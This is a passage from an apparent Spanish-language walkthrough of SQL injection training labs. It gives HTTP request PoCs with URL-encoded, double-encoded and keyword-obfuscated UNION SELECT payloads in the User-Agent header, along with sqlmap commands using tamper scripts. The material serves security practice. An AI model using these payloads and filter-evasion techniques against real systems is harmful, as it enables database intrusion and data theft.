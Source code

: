 ```bash
sqlmap -u 'http://7.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/fill.py --banner
```

### SQLi 8

Codificación de URL simple.

PoC:

```bash
GET / HTTP/1.1
Host: 8.sqli.labs
User-Agent: %61%61%61%61%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%3b%20%2d%2d%20%2d

SQLMap Automation:

sqlmap -u 'http://8.sqli.labs/' -p user-agent --tamper=charencode --technique=U --banner
```

### SQLi 9

Doble codificación.

PoC:

```bash
GET / HTTP/1.1
Host: 9.sqli.labs
User-Agent: %25%36%31%25%36%31%25%36%31%25%36%31%25%32%37%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%34%30%25%34%30%25%37%36%25%36%35%25%37%32%25%37%33%25%36%39%25%36%66%25%36%65%25%33%62%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64

SQLMap Automation:

sqlmap -u 'http://9.sqli.labs/' -p user-agent --tamper=chardoubleencode --technique=U --banner
```

### SQLi 10

Este laboratorio combina el filtrado de palabras clave del reservar con una inyección en una función.

PoC:

```bash
GET / HTTP/1.1
Host: 10.sqli.labs
User-Agent: ') uZEROFILLnZEROFILLiZEROFILLoZEROFILLn sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt 'PoC'; -- -

SQLMap Automation:

sqlmap -u 'http://10.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/fill.py --prefix="notexistant')" --suffix="; -- " --union-char=els --banner
```
